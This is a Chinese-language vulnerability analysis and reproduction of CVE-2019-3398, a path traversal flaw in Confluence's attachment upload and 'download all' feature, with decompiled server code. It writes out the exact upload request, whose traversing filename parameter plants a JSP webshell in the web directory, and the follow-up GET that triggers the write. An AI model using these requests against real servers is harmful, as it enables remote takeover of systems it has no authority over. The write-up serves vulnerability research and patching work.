 （CVE-2019-3398）Confluence 路径穿越漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

2.0.0 \<= version \< 6.6.136.7.0 \<= version \< 6.12.46.13.0 \<= version \< 6.13.46.14.0 \<= version \< 6.14.36.15.0 \<= version \< 6.15.2

三、复现过程
------------

### 漏洞分析

首先根据官方描述，`downloadallattachments`这个资源，结合其验证缓解措施的方式，找到了漏洞触发点：

    ... =》附件=》下载全部

点击`下载全部`时，会触发一个GET请求：

    GET /pages/downloadallattachments.action?pageId=65601

然后响应

    Location: /download/temp/downloadi120q121507.zip?contentType=application/zip

而且每次发出`downloadallattachments.action`请求，其响应的Location路径的zip文件名都不一样，发现原来是服务端每收到一次downloadallattachments.action请求，就会在`download/temp/`目录下生成一个zip文件：

1.png

搜索了一下，发现这个文件是在/Users/xxx/confluenceHome，也就是confluence的安装目录下。

    cqq@ubuntu:~$ find .|grep download45lL6115220.zip
    ./confluenceHome/temp/download45lL6115220.zip

然后看到这个目录下还有一个attachments目录，为了验证这就是附件上传的目录，

2.png

于是，新建了一个页面，上传了几个文本文件，通过cat出来的内容与上传的内容匹配，判定这个就是上传的附件被存放的目录，但是这个目录下的文件名被重命名了。既然官方说是路径穿越漏洞，就得找到文件名或者文件路径的输入点。在这里上传文件的过程中抓一下包，发现有两个参数是文件名/文件路径相关的，`filename`和`name`，经过测试发现漏洞点参数是`filename`。

### 漏洞复现

通过一番`grep -rn xxx *`的查找，发现需要两步来完成对路径穿越的利用。

1、`POST /plugins/drag-and-drop/upload.action?pageId=65601&filename=../../../../../../Users/xxx/repos/atlassian-confluence-6.13.0/confluence/admin/cqq2.jsp&size=754&minorEdit=true&spaceKey=ADMIN&mimeType=application%2Foctet-stream&atl_token=47ae1afbc53f1ed100a4c36053de2d754d48ffeb&contentType=page&isVFMSupported=true&name=cqq2.jsp`先将webshell上传上去，其内容会出现在confluence的安装目录，即/Users/xxx/confluenceHome。注意上传的时候的`size`参数需与`Content-Length`值保持一致，服务端会对这个做校验，若发现不一致，则会导致500。在UploadAction\#execute下断点

    confluence/WEB-INF/atlassian-bundled-plugins/confluence-drag-and-drop-6.13.0.jar!/com/atlassian/confluence/plugins/dragdrop/UploadAction.class

通过

    InputStream inStream = this.getStreamForEncoding(this.httpServletRequest);
    this.fileUploadManager.storeResource(new InputStreamAttachmentResource(inStream, this.filename, this.mimeType, this.size, (String)null, this.minorEdit), (ContentEntityObject)content);

将POST的内容写入到缓存文件中：`attachments/ver003//56/98/98306/101/65/65601/917509/1`，3.png`filename`值没有对`../`进行过滤。44.png上传完成之后，打开"全部附件"页面，会出现我们刚刚上传上去的文件，其文件名没有对`../`进行过滤。5.png

2、`GET /pages/downloadallattachments.action?pageId=65601`然后通过这个GET请求，触发将缓存的webshell内容写入指定的路径操作。在DownloadAllAttachmentsOnPageAction\#execute下断点

    confluence/WEB-INF/lib/confluence-6.13.0.jar!com/atlassian/confluence/pages/actions/DownloadAllAttachmentsOnPageAction.class

文件内容：

    public String execute() throws Exception {
            List<Attachment> latestAttachments = this.attachmentManager.getLatestVersionsOfAttachments(this.getPage());
            Iterator var2 = latestAttachments.iterator();

            while(var2.hasNext()) {
                Attachment attachment = (Attachment)var2.next();
                File tmpFile = new File(this.getTempDirectoryForZipping(), attachment.getFileName());
                InputStream inputStream = this.attachmentManager.getAttachmentData(attachment);
                Throwable var6 = null;

                try {
                    OutputStream fileOutputStream = new FileOutputStream(tmpFile);  // tmpFile内容为/Users/Xxx/repos/confluenceRepos/temp/download8gHGV130701/../../../../../../Users/Xxx/repos/atlassian-confluence-6.13.0/confluence/admin/cmd222.jsp
                    Throwable var8 = null;

                    try {
                        ByteStreams.copy(inputStream, fileOutputStream);  //将缓存文件写入指定的路径
                    } catch (Throwable var31) {
                        var8 = var31;
                        throw var31;
                    } finally {
                        if (fileOutputStream != null) {
                            if (var8 != null) {
                                try {
                                    fileOutputStream.close();
                                } catch (Throwable var30) {
                                    var8.addSuppressed(var30);
                                }
                            } else {
                                fileOutputStream.close();
                            }
                        }

                    }
                } catch (Throwable var33) {
                    var6 = var33;
                    throw var33;
                } finally {
                    if (inputStream != null) {
                        if (var6 != null) {
                            try {
                                inputStream.close();
                            } catch (Throwable var29) {
                                var6.addSuppressed(var29);
                            }
                        } else {
                            inputStream.close();
                        }
                    }

                }
            }

            //在confluence安装路径的temp目录下生成zip文件。
            File zipFile = new File(this.getConfluenceTempDirectoryPath() + File.separator + this.getZipFilename() + ".zip");
            FileUtils.createZipFile(this.getTempDirectoryForZipping(), zipFile);
            FileUtils.deleteDir(this.getTempDirectoryForZipping());
            this.downloadPath = this.prepareDownloadPath(zipFile.getPath()) + "?contentType=application/zip";
            this.gateKeeper.addKey(this.prepareDownloadPath(zipFile.getPath()), this.getAuthenticatedUser());
            return "success";
        }

先拿到Attachement列表

    List<Attachment> latestAttachments = this.attachmentManager.getLatestVersionsOfAttachments(this.getPage());

然后对列表中每个附件进行遍历，从最前面的开始，

然后通过666.png

    attachment.getFileName())

获得附件的名字（这里有我们之前设置好的payload文件名）然后执行

    ByteStreams.copy(inputStream, fileOutputStream);

将之前缓存的上传文件copy到通过请求参数`filename`指定的路径下，实现路径穿越。7.png执行前后对比如下：8.png对比缓存文件和在指定路径生成的文件的sha1值对比：一致。9.pngConfluence本身就可以上传任意文件内容到服务端，但是会放在缓存目录下，文件路径不可控。关键地是，没有对`filename`请求参数进行过滤，有路径穿越漏洞，才能将指定文件名指定文件内容写入到文件系统中。

参考链接
--------

> https://xz.aliyun.com/t/4854
